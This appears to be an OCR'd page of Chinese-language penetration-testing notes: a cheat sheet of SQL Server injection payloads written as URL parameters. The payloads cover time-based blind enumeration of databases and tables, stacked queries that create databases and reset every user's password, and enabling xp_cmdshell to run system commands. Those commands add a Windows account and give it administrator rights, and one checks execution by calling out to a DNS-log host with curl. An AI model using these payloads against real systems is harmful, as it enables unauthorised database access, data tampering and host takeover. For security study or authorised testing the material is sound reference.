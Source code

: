 ```mssql
# 判断注入
?id=0' waitfor delay '0:0:3' --
# 判断库数量
?id=0' if ((select count(*) from master.dbo.sysdatabases where dbid=7)=1) waitfor delay '0:0:3'--
# 判断库的长度
?id=0' if ((select count(*) from master.dbo.sysdatabases where dbid=1 and len(name)=6)=1) waitfor delay '0:0:3'--
# 爆库
?id=0' if (select top 1 ascii(substring(name,1,1)) from sys.sysdatabases where name not in (select top 0 name from sys.sysdatabases))=109 waitfor delay '0:0:3'--
# 判断表数量
?id=0' if ((select count(*) from 库名.dbo.sysobjects where name in (select top 1 name from 库名.dbo.sysobjects) and len (name)=9)=1) waitfor delay '0:0:3' --
# 爆表 ps:substring(name,1-n,1) 表名第一个字母
?id=0' if (select top 1 ascii(substring(name,1-n,1)) from model..sysobjects where name not in (select top 0 name from model..sysobjects))=115 waitfor delay '0:0:3'--
```

### **SQL_Server多语句注入**

```mssql
# 只有sqlserver 可以直接注入并修改数据
# 报错堆叠注入查看库
?id=0'; and 1=(select top 1 name from master..sysdatabases where name not in (select top 1 name from master..sysdatabases)) --
# 报错堆叠注入查看表
?id=0'; and 1=(select top 1 table_name from information_schema.tables where table_name not in (select top 0 table_name from information_schema.tables)) --
# 报错堆叠注入查看表字段
?id=0'; and 1=(select top 1 column_name from information_schema.columns where table_name = 'users' and table_name not in (select top 1 column_name from information_schema.columns)) --
# 新建库
?id=0'; create dababase test --
# 插入数据
?id=0'; insert into users(id,username,password) values(1,'zs',123) --
# 更改所有用户密码
?id=0'; update users set password='123' --
```

### **xp_cmdshell的命令执行**

```mssql
# 利用xp_cmdshell 可以在系统里面执行命令
# 默认是关闭状态,需要sha 帐号才可以开启
# 4 条命令
# 设置options选项
?id=0'; exec sp_configure 'show advanced options', 1; --
# 刷新
?id=0'; reconfigure; --
# 开启xp_cmdshell
?id=0'; exec sp_configure 'xp_cmdshell', 1; --
# 刷新
?id=0'; reconfigure; --
# 测试是否开启成功
# 终端输入 curl dns.log地址, dns.log地址有回显则开启成功
?id=1'; exec master..xp_cmdshell "linux使用curl/wget" --
# 执行命令增加账户
?id=1'; exec master..xp_cmdshell 'net user zs p@ssw0rd/add'; --
# 执行命令将用户添加到管理员组
?id=1'; exec master..xp_cmdshell "net localgroup administrators admin/add" --
--------------------------------------------------------
--------------------------------------------------------
# 创建一个sqldata表,再把命令执行结果写入到表中
?id=1'; create table sqldata(result VARCHAR(8000));--
```